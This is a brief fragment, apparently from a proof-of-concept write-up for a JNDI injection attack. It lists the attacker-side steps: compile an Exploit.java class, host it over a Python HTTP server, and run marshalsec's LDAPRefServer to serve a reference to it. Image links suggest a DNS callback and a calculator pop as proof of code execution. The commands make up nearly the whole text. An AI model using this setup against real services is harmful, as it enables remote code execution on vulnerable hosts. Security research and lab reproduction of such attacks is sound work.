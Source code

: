 javac.exe .\Exploit.java

python3.exe -m http.server 8800

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8800/#Exploit

[image](./dnglog.png)

[image](./calc.png)
